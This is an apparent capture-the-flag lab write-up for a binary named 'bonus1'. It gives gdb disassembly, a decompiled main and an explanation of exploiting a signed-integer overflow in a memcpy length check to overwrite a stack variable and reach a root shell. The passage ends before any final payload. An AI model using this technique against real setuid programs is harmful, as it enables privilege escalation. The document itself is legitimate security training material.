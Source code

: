 # Bonus 1

```sh
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
(gdb)
```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   0x08048425 <+1>:	mov    %esp,%ebp
   0x08048427 <+3>:	and    $0xfffffff0,%esp
   0x0804842a <+6>:	sub    $0x40,%esp
   0x0804842d <+9>:	mov    0xc(%ebp),%eax
   0x08048430 <+12>:	add    $0x4,%eax
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)
   0x08048446 <+34>:	jle    0x804844f <main+43>
   0x08048448 <+36>:	mov    $0x1,%eax
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>
   0x0804844f <+43>:	mov    0x3c(%esp),%eax
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax
   0x0804845d <+57>:	add    $0x8,%eax
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx
   0x08048464 <+64>:	lea    0x14(%esp),%eax
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)
   0x0804846c <+72>:	mov    %edx,0x4(%esp)
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)
   0x08048492 <+110>:	movl   $0x8048583,(%esp)
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave  
   0x080484a4 <+128>:	ret    
End of assembler dump.
(gdb) 


```



```c
undefined4 main(undefined4 param_1,int param_2)

{
  undefined4 uVar1;
  undefined local_3c [40];
  int local_14;
  
  local_14 = atoi(*(char **)(param_2 + 4));
  if (local_14 < 10) {
    memcpy(local_3c,*(void **)(param_2 + 8),local_14 * 4);
    if (local_14 == 0x574f4c46) {
      execl("/bin/sh","sh",0);
    }
    uVar1 = 0;
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

This one is kinda simple to undurstand.

The program takes two input, an integer, and a string.


If the integer is less then 10, then it does a memcpy on our string to a buffer with the limit fixed to integer * 4.


And after that if the integer is == 0x574f4c46 (1464814662 in decimal) it execute a shell.

The program return 0 if the integer is less then 0, or 1 if its higher, this help us to know if our input is right or not.


This is pretty straightfoward, we wanna overflow to overwrite the integer so its equal 0x574f4c46, but how can we overflow if we can just have 9 * 4 = 36 buffer overflowing ?


Since the program first check the integer, and then times it by 4 we can trick it.


By using integer underflow, we are going to give him INT_MIN which will enter the first if, an then will become a positive integer after it get timed by 4.


An exemple here.

```c
#include <stdio.h>
int main(void)
{

        printf("Integer in if %d\n", -2147483648);
        printf("Integer in memcpy %d\n", -2147483648 * 4);
}
```

Output :

```sh
Integer in if -2147483648
Integer in memcpy 0
```

That's almost perfect, lets lower the integer.

```c
#include <stdio.h>
int main(void)
{

        printf("Integer in if %d\n", -2147483630);
        printf("Integer in memcpy %d\n", -2147483630 * 4);
}
```

```sh
Integer in if -2147483630
Integer in memcpy 72
```


We can now overflow the buffer with 72 char, if we need more space we just need to lower that integer.

We now just have to find the integer address and overwrite it.

```sh
(gdb) run 2147483647 $(python -c "print 'A' * 50")
Starting program: /home/user/bonus1/bonus1 2147483647 $(python -c "print 'A' * 50")

Breakpoint 1, 0x08048446 in main ()
(gdb) 




(gdb) x/200x $esp
0xbffff6b0:	0xbffff8d7	0x08049764	0x00000003	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x0000000d	0x08049764	0x080484d1
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x7fffffff
0xbffff6f0:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
0xbffff700:	0x00000003	0xbffff794	0xbffff7a4	0xb7fdc858
0xbffff710:	0x00000000	0xbffff71c	0xbffff7a4	0x00000000
0xbffff720:	0x0804821c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff730:	0x00000000	0x85c45652	0xb2837242	0x00000000
0xbffff740:	0x00000000	0x00000000	0x00000003	0x08048370
0xbffff750:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
0xbffff760:	0x00000003	0x08048370	0x00000000	0x08048391
0xbffff770:	0x08048424	0x00000003	0xbffff794	0x080484b0
0xbffff780:	0x08048520	0xb7fed280	0xbffff78c	0xb7fff918
0xbffff790:	0x00000003	0xbffff8be	0xbffff8d7	0xbffff8e2
0xbffff7a0:	0x00000000	0xbffff915	0xbffff925	0xbffff939
0xbffff7b0:	0xbffff958	0xbffff96b	0xbffff977	0xbffffe98
0xbffff7c0:	0xbffffea4	0xbffffef1	0xbfffff07	0xbfffff16
0xbffff7d0:	0xbfffff2c	0xbfffff3d	0xbfffff46	0xbfffff5d
0xbffff7e0:	0xbfffff65	0xbfffff74	0xbfffffa1	0xbfffffc1
0xbffff7f0:	0x00000000	0x00000020	0xb7fdd418	0x00000021
0xbffff800:	0xb7fdd000	0x00000010	0x178bfbff	0x00000006
0xbffff810:	0x00001000	0x00000011	0x00000064	0x00000003
0xbffff820:	0x08048034	0x00000004	0x00000020	0x00000005
0xbffff830:	0x00000008	0x00000007	0xb7fde000	0x00000008
0xbffff840:	0x00000000	0x00000009	0x08048370	0x0000000b
0xbffff850:	0x000007db	0x0000000c	0x000007db	0x0000000d
0xbffff860:	0x000007db	0x0000000e	0x000007db	0x00000017
0xbffff870:	0x00000000	0x00000019	0xbffff89b	0x0000001f
0xbffff880:	0xbfffffe3	0x0000000f	0xbffff8ab	0x00000000
0xbffff890:	0x00000000	0x00000000	0xda000000	0x2b6a3d5c
0xbffff8a0:	0x8496bd15	0xecfa386c	0x692d6c12	0x00363836
0xbffff8b0:	0x00000000	0x00000000	0x00000000	0x682f0000
0xbffff8c0:	0x2f656d6f	0x72657375	0x6e6f622f	0x2f317375
0xbffff8d0:	0x756e6f62	0x32003173	0x34373431	0x34363338
0xbffff8e0:	0x41410037	0x41414141	0x41414141	0x41414141
0xbffff8f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff900:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff910:	0x41414141	0x45485300	0x2f3d4c4c	0x2f6e6962
0xbffff920:	0x68736162	0x52455400	0x74783d4d	0x2d6d7265
0xbffff930:	0x63363532	0x726f6c6f	0x48535300	0x494c435f
0xbffff940:	0x3d544e45	0x302e3031	0x322e322e	0x35343320
0xbffff950:	0x34203839	0x00323432	0x5f485353	0x3d595454
0xbffff960:	0x7665642f	0x7374702f	0x5500302f	0x3d524553
0xbffff970:	0x756e6f62	0x4c003173	0x4f435f53	0x53524f4c
0xbffff980:	0x3d73723d	0x69643a30	0x3b31303d	0x6c3a3433
0xbffff990:	0x31303d6e	0x3a36333b	0x303d686d	0x69703a30
0xbffff9a0:	0x3b30343d	0x733a3333	0x31303d6f	0x3a35333b
0xbffff9b0:	0x303d6f64	0x35333b31	0x3d64623a	0x333b3034
0xbffff9c0:	0x31303b33	0x3d64633a	0x333b3034	0x31303b33
(gdb)

```

Our integer should be at 0xbffff6ec.

And our av2 at 0xbffff89c.

```sh
(gdb) p/d 0xbffff89c - 0xbffff6ec
$2 = 432
(gdb)
```

0x574f4c46